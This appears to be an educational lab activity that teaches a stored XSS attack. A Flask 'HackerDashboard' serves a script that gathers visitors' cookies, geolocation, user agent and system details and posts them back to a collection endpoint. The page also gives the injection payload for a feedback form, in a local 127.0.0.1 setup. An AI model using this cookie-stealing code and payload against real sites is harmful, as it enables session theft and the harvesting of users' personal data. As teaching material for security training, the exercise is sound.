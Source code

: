 Fetch the User Data on the Dashboard
======================
In this activity, you will perform XSS attack using script from other server to get the user information.

<img src= "https://s3-whjr-curriculum-uploads.whjr.online/a344d5c0-4411-4ba5-aa97-8a33a30527b8.gif" width = "100%" height = "50%">


Follow the given steps to complete this activity.


1. Create a script in `HackerDashboard/static` folder.
   * Include jQuery from CDN
   ```
   var script = document.createElement('script');
   script.src = 'https://code.jquery.com/jquery-3.6.4.min.js';
   document.head.appendChild(script);
   ```
   * Collect browser data in function `collectBrowserData()`
   ```
   var browserData = {
        userAgent: navigator.userAgent,
        browserName: getBrowserName(),
        browserType: getBrowserType(),
        browserVersion: getBrowserVersion(),
        cookies: getCookies(),
        location: geolocationResult,
        currentTime: getCurrentTime(),
        screenSize: getScreenSize(),
        operatingSystem: getOperatingSystem(),
    };
   ```
   * Send user data to server path `/collect_browser_data` using ajax.
   ```
   $.ajax({
        url: 'http://127.0.0.1:5000/collect_browser_data',
        method: 'POST',
        contentType: 'application/json',
        data: JSON.stringify(browserData),
        success: function (response) {
            console.log('Data sent successfully:', response);
        }
    });
   ```
   
2. Open `app.py` and add code to fetch the `script.js` file and also collect data from user.
   * Add path to deliver `script.js`.
   ```
   @app.route('/script')
   def script():
        return send_from_directory('static', 'script.js')
   ```
   * Create path `/collect_browser_data` to get data when script runs.
   ```
   @app.route('/collect_browser_data', methods=['POST', 'GET'])
    def collect_browser_data():
        browserData variable   
        browserData = request.get_json()
        client_ip = request.remote_addr
        browserData['ipAddress'] = client_ip
        data.append(browserData)
        return jsonify({'status': 'success'})
   ```
3. Run HackerDashboard app.
4. Run the Feedback app and perform XSS attack by adding following script:
```
<script src="http://127.0.0.1:5000/script"></script>
```

Check if the data gets to Hacker Dashboard after the attack is performed.
